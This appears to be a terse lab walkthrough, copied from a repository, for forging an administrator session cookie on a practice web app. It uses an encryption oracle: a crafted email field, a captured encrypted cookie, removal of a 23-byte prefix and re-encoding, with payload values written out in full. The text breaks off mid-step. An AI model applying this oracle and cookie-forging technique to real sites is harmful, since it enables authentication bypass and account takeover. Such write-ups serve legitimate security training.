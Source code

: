 ```bash
Go to repeater for: 

GET /post?postId=5 HTTP/1.1

Replace:

notification=Zisx9IRODQpzG5wncrFcLcBqFdMMn7BSxJnR38IJT3RzZO3bCeT%2b61p2EEjrQNxZ

With

notification=jNQ5PYBXThe9UbpTcHXn0MLVyzjzjVLegXY4B7ZnRYw%3d

Note the response contains:

wiener:1652404285092

Change repeater 1:2 to encrypt:decrypt

In encrypt change:

csrf=3NXKYV35ErVIRbNw1R8gQ7g0LirtAjFd&postId=5&comment=wrong&name=name&email=wrong.email.com&website=

To

csrf=3NXKYV35ErVIRbNw1R8gQ7g0LirtAjFd&postId=5&comment=wrong&name=name&email=administrator:1652404285092&website=

Copy:

Set-Cookie: notification=j2uekPaXgr7oN%2bmcGApykcncP32UjqUV7BQaL24SC0m6oZnEyM2DZkV8neK4bVaURuCn7xcInnI8CIe9jwxBsQ%3d%3d; 

Go to decrypt:

Change the "notification" cookie to (emulating the administrator:1652404285092 response):

j2uekPaXgr7oN%2bmcGApykcncP32UjqUV7BQaL24SC0m6oZnEyM2DZkV8neK4bVaURuCn7xcInnI8CIe9jwxBsQ%3d%3d

Note the "Invalid email address: administrator:1652404285092"
The goal is to cut out the "Invalid email address: " section of the above string
"Invalid email address: " = 23 bytes

Send the encoded response to Decoder

j2uekPaXgr7oN%2bmcGApykcncP32UjqUV7BQaL24SC0m6oZnEyM2DZkV8neK4bVaURuCn7xcInnI8CIe9jwxBsQ%3d%3d

Decode content:
URL-decode
Base-64 decode
Delete 23 bytes
Re-encode content:
Base-64 encode
URL-encode

%46%65%77%55%47%69%39%75%45%67%74%4a%75%71%47%5a%78%4d%6a%4e%67%32%5a%46%66%4a%33%69%75%47%31%57%6c%45%62%67%70%2b%38%58%43%4a%35%79%50%41%69%48%76%59%38%4d%51%62%45%3d

Go to decrypt:
Place 

%46%65%77%55%47%69%39%75%45%67%74%4a%75%71%47%5a%78%4d%6a%4e%67%32%5a%46%66%4a%33%69%75%47%31%57%6c%45%62%67%70%2b%38%58%43%4a%35%79%50%41%69%48%76%59%38%4d%51%62%45%3d
```